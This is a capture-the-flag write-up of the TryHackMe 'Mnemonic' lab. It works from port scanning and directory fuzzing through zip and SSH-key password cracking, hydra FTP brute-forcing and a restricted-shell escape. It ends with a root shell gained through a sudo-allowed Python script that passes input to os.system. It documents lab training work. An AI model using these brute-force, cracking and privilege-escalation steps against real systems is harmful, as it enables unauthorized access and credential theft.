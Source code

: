 ```yaml
---
layout: post
title: Mnemonic
date: 2020-12-19 00:00:01 +5:30
categories: [TryHackMe, Medium]
tags: [osint, dirbust, code-analysis] # add tag
image: /assets/img/mnemonic/mnem.png
---
```


## Description

The Following Post is writeup of mnemonic room of tryhackme <https://tryhackme.com/room/mnemonic>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | [villwocki](https://tryhackme.com/p/villwocki)

## Summary

This room has 3 ports open 21, 80 and 1337. On dirbusting port 80 we will get user backups which contains info about ftp. Bruteforcing it will get us into ftp and there we will get id_rsa of one user.
Logging as that user in ssh at port 1337 get into rbash shell which can be bypassed and we can read dir of another user. We got some strange files in user home dir and the other dir leads to an image.
OSINT with the room name leads us to a github repo which have a decoder with that we can decode the image and get password for other user. There is a code which we can use as sudo but it has one weakness using which we can execute commands as root so got root.

## Walkthrough

### Enumeration

Starting with nmap scan.
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry
|_/webmasters/*
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1337/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e0:42:c0:a5:7d:42:6f:00:22:f8:c7:54:aa:35:b9:dc (RSA)
|   256 23:eb:a9:9b:45:26:9c:a2:13:ab:c1:ce:07:2b:98:e0 (ECDSA)
|_  256 35:8f:cb:e2:0d:11:2c:0b:63:f2:bc:a0:34:f3:dc:49 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So 1337 have ssh server running.

#### Port80

![port80](/assets/img/mnemonic/port80.png)

![robots](/assets/img/mnemonic/robotstxt.png)

so we have robots.txt it directs us to webmasters.
For moving forward we have a way we can fuzz dir further

```bash
root@kali  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 325, Words: 20, Lines: 10]
backups                 [Status: 301, Size: 327, Words: 20, Lines: 10]

So let's enum more.

 root@kali  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/backups/FUZZ.zip
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
<redacted>                [Status: 200, Size: 408, Words: 1, Lines: 9]
```

Okay i assumed  as zip. so we can download the zip and see what we can find inside it.

### Exploitation

Ahh the zip seems encrypted.
So john have script which converts zip to john hash format and john can crack that.

```bash
root@kali  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>         (backups.zip/backups/note.txt)
1g 0:00:00:02 DONE (2020-12-19 16:02) 0.4115g/s 5872Kp/s 5872Kc/s 5872KC/s 0050cent..0012093760
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

In zip we can see user info and get username.
Now Bruteforce the ftp pass.

```bash
root@kali  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-19 16:20:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.148.195:21/
[STATUS] 241.00 tries/min, 241 tries in 00:01h, 14344158 to do in 991:60h, 16 active
[STATUS] 245.33 tries/min, 736 tries in 00:03h, 14343663 to do in 974:27h, 16 active
[21][ftp] host: 10.10.148.195   login: ftpuser   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-19 16:24:53
```

250 Directory successfully changed.
ftp> cd data-4
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Jul 14 18:05 .
drwx------   12 1003     1003         4096 Jul 14 18:22 ..
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 3
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 4
-rwxr-xr-x    1 1001     1001         1766 Jul 13 20:34 id_rsa
-rwxr-xr-x    1 1000     1000           31 Jul 13 21:18 not.txt

Okay the ftp gave us id_rsa and a not.txt
The ssh key have pass phrase let's crack it
Using ssh2john => hash => hash crack

Got user login.

>But there is a script running as root which will kick us out and we have rbash

Alright i saw a weird 6450.txt file(let's note it we can use it later)
I was Stuck a bit here:
  Got idea to check for mnemonic decryption ans landed on <https://github.com/MustafaTanguner/Mnemonic/>
  So it's indeed right path but i need a image.
  I checked what i can do escape the rbash?

Todo: Escape Rbash and defeat the script
 <https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/>
I checked and we can bypass rbash using vi.

so after that we can check other dir let's check condor we have access to it.

```bash
james@mnemonic:/home$ ls -la condor
ls: cannot access 'condor/..': Permission denied
ls: cannot access 'condor/'\''<redacted>=='\''': Permission denied
ls: cannot access 'condor/.gnupg': Permission denied
ls: cannot access 'condor/.bash_logout': Permission denied
ls: cannot access 'condor/.bashrc': Permission denied
ls: cannot access 'condor/.profile': Permission denied
ls: cannot access 'condor/.cache': Permission denied
ls: cannot access 'condor/.bash_history': Permission denied
ls: cannot access 'condor/.': Permission denied
ls: cannot access 'condor/<redacted>==': Permission denied
total 0
d????????? ? ? ? ?            ?  .
d????????? ? ? ? ?            ?  ..
d????????? ? ? ? ?            ? '<redacted>'
l????????? ? ? ? ?            ?  .bash_history
-????????? ? ? ? ?            ?  .bash_logout
-????????? ? ? ? ?            ?  .bashrc
d????????? ? ? ? ?            ?  .cache
d????????? ? ? ? ?            ?  .gnupg
-????????? ? ? ? ?            ?  .profile
d????????? ? ? ? ?            ? ''\''<redacted>=='\'''
```

Alright base64 and we got flag and image url.

mnemonic + image + (Some config file... Hmmmm)
okay remember we got a 6450.txt yess.

![mnemonic](/assets/img/mnemonic/condorpass.png)

Hurray got user condor.

```bash
condor@mnemonic:~$ sudo -l
Matching Defaults entries for condor on mnemonic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User condor may run the following commands on mnemonic:
    (ALL : ALL) /usr/bin/python3 /bin/examplecode.py
 ```

 Looking into source code examplecode.py there is a function where we can put input.
yes in option 0
 >os.system(input(Running...))

```bash
 Select:0
are you sure you want to quit ? yes : .

Running....bash

root@mnemonic:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

I was stuck in root for few hours and doing something totally different.
